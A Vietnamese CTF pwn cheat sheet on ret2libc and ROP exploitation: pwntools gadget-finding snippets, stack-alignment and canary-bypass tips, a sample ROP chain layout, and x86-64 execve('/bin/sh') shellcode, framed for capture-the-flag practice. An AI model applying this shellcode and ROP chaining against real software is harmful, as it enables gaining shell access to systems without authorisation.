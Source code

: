 # ret2libc-ROP

- Overview:
   * pwntools '/bin/sh':
    ```python
    next(libc.search(b'/bin/sh'))
    ```
   * [Tools local find offset LIBC](https://x3ero0.tech/posts/orxw_balsn_ctf_2021_pwn/) .
   * Để ý một số bài có thể sử dụng one_gadget kết hợp với đối số của các hàm bị ghi đè khi gọi tới.
   * Trong libc.so.6 có mọi gadgets, đôi khi không thể dùng tools để tìm được 1 số gadgets.
       + VD: `syscall ; ret` [dicectf 2023 - bop].
       + gadget push rax;ret
       + jmp rsp
       + ...
   ```python
   import pwn
   rop = pwn.ROP(libc, base=<address_overwrite>)
   rop.call(rop.find_gadget(["syscall", "ret"]))
   print(rop.dump())
   ```
   * Từ Ubuntu 18.04 trở đi, nếu việc thực thi thất bại tại những hàm như buffered_vfprintf() hay do_system() trong những file thực thi 64 bit là do ngay trước câu lệnh ret, đầu vùng nhớ stack được cấp phát 16 bytes cho việc gọi lệnh tại return address nên để thực thi được thì cần chèn thêm 1 ROPgadget "ret" vào trước câu lệnh cần thực thi để bỏ đi 1 stack 8 bytes đầu tiên và thực thi câu lệnh này nằm ở stack ngay sau đó.
    ```
    STACK:
    1. địa chỉ lệnh "ret"
    2. địa chỉ lệnh "pop rdi, ret"
    3. địa chỉ lưu chuỗi 
    4. địa chỉ hàm gets

    5. địa chỉ lệnh "ret"
    6. địa chỉ lệnh "pop rdi, ret"
    7. địa chỉ muốn được in (đọc chuỗi)
    8. địa chỉ hàm printf 
    # leak = printf thì sau printf lại phải dùng ret
    9. địa chỉ lệnh "ret"
    10. địa chỉ nào đó muốn return về.
    ```
    * Vậy nên để bypass tránh việc ghi đè canary ta chỉ cần nhập chữ cái (+, -, *, /) mà không thuộc format %lu thì phần tử đó sẽ bị skip, không thay đổi. VD: chall `Warmup` - UIT-2022-CTF . 
    * Lỗi ép kiểu là khi khai báo biến x là long (8 byte) nhưng khi xử lý điều kiện ép kiểu nó thành int (4 byte) dẫn đến sai về mặt giá trị so sánh (trên thanh ghi) => bug
    * Leak được LIBC thì có thể leak được stack thông qua biến environ trong LIBC.
    * Viết sheelcode cần set context.binary

    ```python
    ...
    elf = ELF('./vuln')
    context.binary = elf
    p = elf.process()
    ...

    shellcode = asm('''
         instruction assembly
         ...
    ''')

    OR

    context.arch = 'amd64'
    shellcode = asm(
        f'''
        xor rdi, rdi
        push rdi
        mov rdi, 0x68732f2f6e69622f
        push rdi
        mov rdi, rsp
        xor rdx, rdx
        xor rsi, rsi
        xor rax, rax
        add al, 0x3b
        syscall
        ''')
    ```


- Technique:
    * [CTF: No leak - close(fd)](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) .
    * [CTF: BlindROP](https://soolidsnake.github.io/2018/07/15/blindx86_64_rop.html) .
    * BRUTEFORCE - `TWOSHOT - KMACTF2022` * ...

